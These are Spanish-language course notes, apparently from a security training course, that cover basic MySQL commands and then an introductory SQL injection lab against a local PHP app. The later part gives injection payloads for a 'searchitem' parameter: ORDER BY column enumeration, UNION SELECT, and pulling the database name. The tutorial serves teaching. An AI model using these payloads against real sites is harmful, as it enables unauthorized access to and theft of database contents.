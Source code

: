 Para ingresar datos en la tabla lo podemos hacer con el siguiente comando:

```sql
insert into users(id,username,password) values(1,'admin','admin123$!pa$$');
```

Si quieres actualizar algún registro lo puedes hacer con:

```sql 
update users set id=2 where username='s4vitar';
```

Para crear un usuario podrías ejecutar la siguiente linea de comando:

```sql
create user 's4vitar'@'localhost' identified by 's4vitar123';
```

Y para darle todos los privilegios sobre la base de datos seria así:

```sql
grant all privileges on Hack4u.* to 's4vitar'@'localhost';
```

Para entender el funcionamiento de la inyección SQL en PHP, primero activamos los servicios de MySQL y Apache de la siguiente manera:

```bash
service mysql start 
service apache2 start
```

Exactamente. El método `GET` envía los datos a través de la URL, lo que permite pasar información directamente escribiéndola en la barra de direcciones del navegador. En el ejemplo anterior, usamos `GET` para recibir el valor del parámetro `usuario` directamente desde la URL, lo que puede ser peligroso si no se implementan medidas de seguridad, ya que cualquiera podría manipular la URL e inyectar código malicioso.

![[Pasted image 20240919195004.png]]

Como atacante, uno de los primeros pasos para realizar una inyección SQL es **enumerar el número de columnas** de la tabla solicitante. Esto se puede hacer utilizando el comando `ORDER BY` en la consulta SQL inyectada. El objetivo es descubrir cuántas columnas tiene la tabla sin causar errores.

![[Pasted image 20240919195912.png]]

```bash
searchitem=test' order by 5-- -
```

Luego, editando el comando a:

```bash
searchitem=test' union select 1,2,3,4,5-- -
```

Podemos ver que la inyección de código ahora nos muestra esos números. Posteriormente, para saber en qué base de datos estamos, lo hacemos con:

```bash
searchitem=test' union select 1,2,database(),4,5-- -
```
